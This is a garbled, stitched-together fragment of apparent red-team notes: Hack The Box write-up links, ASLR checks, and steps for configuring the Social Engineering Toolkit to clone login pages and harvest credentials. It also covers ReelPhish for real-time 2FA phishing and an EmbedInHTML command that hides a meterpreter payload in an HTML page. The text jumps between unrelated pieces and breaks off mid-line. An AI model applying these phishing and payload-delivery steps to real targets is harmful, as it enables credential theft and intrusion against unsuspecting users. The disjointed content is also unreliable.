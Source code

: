 https://0xrick.github.io/hack-the-box/safe/
https://0xrick.github.io/hack-the-box/ellingson/

cat /proc/sys/kernel/randomize_va_space
ldd /usr/bin/garbage


One of the best tools to quickly clone web application authentication pages is the Social Engineering Toolkit
(SET) by TrustedSec. This is a standard tool for any SE campaign where gaining credentials is a priority. You
can download SET at https://github.com/trustedsec/social-engineer-toolkit.

Setting Up SET
Configure SET to Use Apache (versus the default Python)
Modify the config file to the following
gedit /etc/setoolkit/set.config
APACHE_SERVER=ON
APACHE_DIRECTORY=/var/www/html
HARVESTER_LOG=/var/www/html
Start Social Engineering Toolkit (SET)
cd /opt/social-engineer-toolkit

ReelPhish https://github.com/fireeye/ReelPhish:

Clone victim site that requires 2FA authentication
On your own Attacker Box, parse the traffic required to log into the real site. In my case, I open
Burp Suite and get all the post parameters required to authenticate

https://www.fireeye.com/blog/threat-research/2018/02/reelphish-real-time-two-factor-phishing-tool.html

[https://github.com/Arno0x/EmbedInHTML]

cd /op/EmbedInHTML
python embedInHTML.py -k keypasshere -f meterpreter.xll -o index.html -w
(https://github.com/cheetz/generateJenkinsExploit), w